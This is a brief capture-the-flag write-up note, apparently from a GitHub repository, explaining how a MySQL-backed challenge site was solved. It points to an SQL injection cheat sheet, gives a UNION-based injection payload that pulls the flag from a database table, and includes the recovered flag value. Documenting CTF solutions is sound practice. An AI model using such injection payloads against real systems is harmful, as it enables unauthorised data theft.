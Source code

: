 * I just used [this](https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/) guide because the site exposed that it was running MySQL when booting

* Entering `" UNION ALL SELECT concat(0x28,flag) FROM syringe.flag #` gets the flag: `flag{f2a5006b1b07cc08362772807322ef62}`
